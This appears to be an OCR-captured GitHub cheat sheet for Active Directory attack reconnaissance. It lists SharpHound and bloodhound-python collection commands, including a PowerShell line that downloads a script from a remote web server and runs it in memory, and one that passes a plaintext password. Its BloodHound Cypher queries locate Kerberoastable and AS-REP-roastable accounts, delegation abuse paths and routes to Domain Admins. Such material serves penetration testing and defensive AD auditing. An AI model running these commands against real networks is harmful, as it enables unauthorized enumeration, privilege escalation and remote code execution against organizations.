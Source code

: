 ```
execute-assembly C:\tools\SharpHound3\SharpHound3\bin\Debug\SharpHound.exe -c All -D imsonia.io 
IEX(System.Net.WebClient.DownloadString('http://webserver:4444/SharpHound.ps1'));Invoke-CollectionMethod All
bloodhound-python -d m0chanAD.local -u m0chan -p Summer2019 -gc DOMAINCONTROLLER.m0chanAD.local -c all
```

### Kerberoasting
```
MATCH (u:User {hasspn:true}) RETURN u
MATCH (u:User {hasspn:true}), (c:Computer), p=shortestPath((u)-[*1..]->(c)) RETURN p
MATCH (u:User {hasspn:true}) MATCH (g:Group) WHERE g.name CONTAINS 'DOMAIN ADMINS' MATCH p = shortestPath( (u)-[*1..]->(g) ) RETURN p


```


### ASREPRoasting
```
MATCH (u:User {dontreqpreauth:true}), (c:Computer), p=shortestPath((u)-[*1..]->(c)) RETURN p
```

### Unconstrained Delegation
```
MATCH (c:Computer {unconstraineddelegation:true}) RETURN c
MATCH (u:User {owned:true}), (c:Computer {unconstraineddelegation:true}), p=shortestPath((u)-[*1..]->(c)) RETURN p

```
### Constrained Delegation
```
MATCH (c:Computer), (t:Computer), p=((c)-[:AllowedToDelegate]->(t)) RETURN p
MATCH (u:User {owned:true}), (c:Computer {name: "WEB-2.CYBERBOTIC.IO"}), p=shortestPath((u)-[*1..]->(c)) RETURN p
```
### Show all high value target group             
```
MATCH p=(n:User)-[r:MemberOf*1..]->(m:Group {highvalue:true}) RETURN p

```
### Find if unprivileged users have rights to add members into groups:        
```
MATCH (n:User {admincount:False}) MATCH p=allShortestPaths((n)-[r:AddMember*1..]->(m:Group)) RETURN p

```

